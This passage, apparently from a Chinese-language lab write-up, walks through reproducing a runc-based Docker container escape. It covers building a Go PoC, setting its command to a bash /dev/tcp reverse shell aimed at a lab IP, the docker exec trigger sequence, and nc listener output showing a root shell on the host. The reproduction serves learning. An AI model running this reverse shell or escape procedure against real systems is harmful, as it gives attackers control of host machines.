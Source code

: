 ```bash
go build main.go
```

之后将编译好的PoC复制到docker容器。

## C. 触发漏洞
笔者初学容器逃逸，按照网上的方法尝试了很多次，才终于找到漏洞触发的方法。最后发现是网上的方法说的不详细。

### Step 1 
在另一台虚拟机（192.168.198.135）中打开50000端口的监听，设置PoC的任意执行命令为反弹shell命令：
```bash
bash -i >& /dev/tcp/192.168.198.135/50000 0>&1
```

### Step 2
用bash作为命令行打开容器：
```bash
docker exec -it <容器名> bash
```

### Step 3
apt update，安装netcat。

复制PoC二进制ELF执行PoC代码，立即可以看到/bin/sh被覆盖的提示信息，但是一直找不到runc进程，这是因为目前docker还没有需要runc参与的任务。

### Step 4
在主机另一个终端打开容器的命令行让PoC检测到runc。但这次一定要用/bin/sh打开命令行而不是bash。docker exec命令执行后瞬间就可以看到runc进程被修改的提示信息。在新的终端中用sh无法打开容器的命令行，显示`No help topic for '/bin/sh'`。

### Step 5
在新的终端再一次尝试用sh打开容器的命令行，随后命令行阻塞，成功执行反弹shell代码，下面是攻击者机器的部分命令行显示内容：

```bash
root@colin-virtual-machine:~/Desktop# nc -vv -lp 50000
Listening on 0.0.0.0 50000
Connection received on 192.168.198.xxx 42248
bash: cannot set terminal process group (8750): Inappropriate ioctl for device
bash: no job control in this shell
<ebe2896995719366ddc8dd1893c0081bff30f6c5cf7d3c339# ls
ls
16505d598214f0c33ba21d8e96f5ecf34db215d32ba229527a67314d7ed96c7a.pid
config.json
init.pid
log.json
rootfs
<ebe2896995719366ddc8dd1893c0081bff30f6c5cf7d3c339# uname -a
uname -a
Linux ubuntu 5.4.0-150-generic #167~18.04.1-Ubuntu SMP Wed May 24 00:51:42 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
<ebe2896995719366ddc8dd1893c0081bff30f6c5cf7d3c339# pwd
pwd
/run/docker/containerd/daemon/io.containerd.runtime.v1.linux/moby/cf90012c3bea6ddebe2896995719366ddc8dd1893c0081bff30f6c5cf7d3c339
<ebe2896995719366ddc8dd1893c0081bff30f6c5cf7d3c339# 
```

复现完毕。